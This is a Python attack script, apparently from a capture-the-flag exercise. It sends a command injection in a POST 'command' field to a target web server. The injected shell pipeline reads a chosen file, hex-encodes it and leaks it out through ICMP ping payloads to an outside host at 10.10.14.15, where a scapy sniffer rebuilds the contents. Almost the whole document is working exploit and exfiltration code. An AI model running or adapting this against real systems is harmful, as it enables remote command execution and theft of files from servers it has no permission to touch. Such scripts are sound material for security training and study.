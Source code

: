 ```

  1 #!/usr/bin/env python3
  2 
  3 import requests
  4 import sys
  5 from scapy.all import *
  6 from threading import Thread
  7 
  8 buf = ''
  9 marker = "0xdf"
 10 
 11 def parse_ping(pkt):
 12     global buf
 13     setmarker = set(marker)  # to check if string is completely marker in some order
 14     buf += pkt[ICMP].load[16:32].decode('utf-8')
 15     if set(buf[-4:]) == setmarker:
 16         if set(buf) != setmarker:
 17             buf = buf[:buf.index(marker)]
 18             print(f"{buf}")
 19         buf = ''
 20 
 21 def sniffer():
 22     sniff(iface="tun0", filter="icmp[icmptype] == 8", prn=parse_ping)
 23 
 24 sniff_thread = Thread(target = sniffer)
 25 sniff_thread.daemon = True  # allow ctrl-c to exit
 26 sniff_thread.start()
 27 
 28 if len(sys.argv) < 2:
 29     ip = input("ip: ")
 30 else:
 31     ip = sys.argv[1]
 32 
 33 data = """(echo "{marker}" | cat {cmd} -) | xxd -p | tr -d '\\n' | fold -w 32 | while read data; do ping -c 1 -p $data 10.10.14.15; done;"""
 34 
 35 while True:
 36     try:
 37         cmd = input("filename: ")
 38         print()
 39         resp = requests.post(f'http://{ip}/',
 40                    data=f"command={data.format(cmd=cmd,marker=marker*4)}",
 41                    headers={"Content-Type": "application/x-www-form-urlencoded"})
 42         if "Command is not allowed." in resp.text:
 43             print("Name filtered. Try again")
 44     except requests.exceptions.ConnectionError:
 45         print(f"Unable to connect to {ip}.")
 46         sys.exit()
 47     except KeyboardInterrupt:
 48         print()
 49         sys.exit()

```

